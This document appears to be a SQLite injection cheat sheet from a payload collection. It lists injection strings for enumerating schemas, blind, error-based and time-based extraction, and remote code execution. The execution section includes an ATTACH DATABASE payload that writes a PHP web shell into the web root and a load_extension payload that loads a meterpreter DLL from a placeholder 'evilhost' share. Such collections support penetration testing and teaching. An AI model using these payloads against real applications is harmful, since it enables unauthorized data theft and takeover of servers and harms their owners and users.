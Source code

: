 # SQLite Injection

> SQLite Injection  is a type of security vulnerability that occurs when an attacker can insert or "inject" malicious SQL code into SQL queries executed by an SQLite database. This vulnerability arises when user inputs are integrated into SQL statements without proper sanitization or parameterization, allowing attackers to manipulate the query logic. Such injections can lead to unauthorized data access, data manipulation, and other severe security issues. 


## Summary

* [SQLite Comments](#sqlite-comments)
* [SQLite Version](#sqlite-version)
* [SQLite String](#sqlite-string)
    * [SQLite String Methodology](#sqlite-string-methodology)
* [SQLite Blind](#sqlite-blind)
    * [SQLite Blind Methodology](#sqlite-blind-methodology)
    * [SQLite Blind With Substring Equivalent](#sqlite-blind-with-substring-equivalent)
* [SQlite Error Based](#sqlite-error-based)
* [SQlite Time Based](#sqlite-time-based)
* [SQlite Remote Code Execution](#sqlite-remote-code-execution)
    * [Attach Database](#attach-database)
    * [Load_extension](#load_extension)
* [References](#references)


## SQLite Comments

| Type                       | Description                       |
|----------------------------|-----------------------------------|
| `/* SQLite Comment */`     | C-style comment                   |
| `--`                       | SQL comment                       |


## SQLite Version

```sql
select sqlite_version();
```

## SQLite String

### SQLite String Methodology

| Description             | SQL Query                                 |
| ----------------------- | ----------------------------------------- | 
| Extract Database Structure                           | `SELECT sql FROM sqlite_schema` |
| Extract Database Structure (sqlite_version > 3.33.0) | `SELECT sql FROM sqlite_master` |
| Extract Table Name  | `SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'` |
| Extract Column Name | `SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'` |
| Extract Column Name | `SELECT GROUP_CONCAT(name) AS column_names FROM pragma_table_info('table_name');` |


## SQLite Blind

### SQLite Blind Methodology

| Description             | SQL Query                                 |
| ----------------------- | ----------------------------------------- | 
| Count Number Of Tables  | `AND (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%' ) < number_of_table` | 
| Enumerating Table Name  | `AND (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%' LIMIT 1 OFFSET 0)=table_name_length_number` | 
| Extract Info            | `AND (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%' LIMIT 1 OFFSET 0) > HEX('some_char')` | 
| Extract Info (order by) | `CASE WHEN (SELECT hex(substr(sql,1,1)) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%' LIMIT 1 OFFSET 0) = HEX('some_char') THEN <order_element_1> ELSE <order_element_2> END` | 


### SQLite Blind With Substring Equivalent

| Function    | Example                                   |
| ----------- | ----------------------------------------- | 
| `SUBSTRING` | `SUBSTRING('foobar', <START>, <LENGTH>)`  | 
| `SUBSTR`    | `SUBSTR('foobar', <START>, <LENGTH>)`     | 


## SQlite Error Based

```sql
AND CASE WHEN [BOOLEAN_QUERY] THEN 1 ELSE load_extension(1) END
```


## SQlite Time Based

```sql
AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
```


## SQLite Remote Code Execution

### Attach Database

```sql
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
```

### Load_extension

:warning: This component is disabled by default.

```sql
UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```



## References

* [Injecting SQLite database based application - Manish Kishan Tanwar - February 14, 2017](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf)
* [SQLite Error Based Injection for Enumeration - Rio Asmara Suryadi - February 6, 2021](https://rioasmara.com/2021/02/06/sqlite-error-based-injection-for-enumeration/)
* [SQLite3 Injection Cheat sheet - Nickosaurus Hax - May 31, 2012](https://sites.google.com/site/0x7674/home/sqlite3injectioncheatsheet)
